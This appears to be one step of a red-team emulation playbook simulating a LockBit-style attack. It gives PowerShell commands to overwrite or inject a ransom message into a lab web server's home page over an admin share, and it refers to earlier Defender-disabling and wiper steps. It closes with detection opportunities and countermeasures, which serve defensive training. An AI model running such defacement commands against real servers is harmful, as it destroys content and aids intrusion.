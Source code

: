 
# Step 6: Deface Public-Facing Web Server

**Objective**: Modify the web content of the external server (`dmz-web-elcoop-1`) to simulate public-facing defacement for psychological or ideological impact.

---

## Context

- Previous actions (Defender disablement and wiper execution) have already been triggered.
- This step mimics the behavior of ransomware or hacktivist groups, leaving a visible message.
- The Red Team still has beacon access to the environment (e.g., via `infra-dc1`).

---

## Execution

### 1. Locate the Web Root Directory

Assuming a standard IIS deployment:

```plaintext
\\dmz-web-elcoop-1\c$\inetpub\wwwroot\index.html
```

### 2. Modify Web Page Content

#### Option A: Overwrite the home page

```powershell
Copy-Item -Path C:\RedTeam\deface.html -Destination \\dmz-web-elcoop-1\c$\inetpub\wwwroot\index.html -Force
```

#### Option B: Inject message into existing HTML

```powershell
Add-Content -Path \\dmz-web-elcoop-1\c$\inetpub\wwwroot\index.html -Value "<!-- Hacked by LockBit // Data has been encrypted -->"
```

### 3. Validate Defacement

Confirm visually or with PowerShell:

```powershell
Invoke-WebRequest http://dmz-web-elcoop-1 | Select-Object -ExpandProperty Content
```

---

## Result

- The organization’s external website is visibly defaced
- Simulates final stage of a LockBit-style operation
- Adds psychological pressure to the impact already delivered

---

## Detection Opportunities

| Vector | Description |
|--------|-------------|
| File Write | Changes to `inetpub\wwwroot\index.html` |
| SMB Logs | Internal system writing to web server |
| Web Logs | Modified content served from index page |

---

## Defensive Countermeasures

- Enable **File Integrity Monitoring (FIM)** on web roots
- Restrict internal write access to DMZ systems via ACLs
- Segment DMZ assets from internal admin systems (Zero Trust)
- Deploy WAF or EDR tools with content change alerting

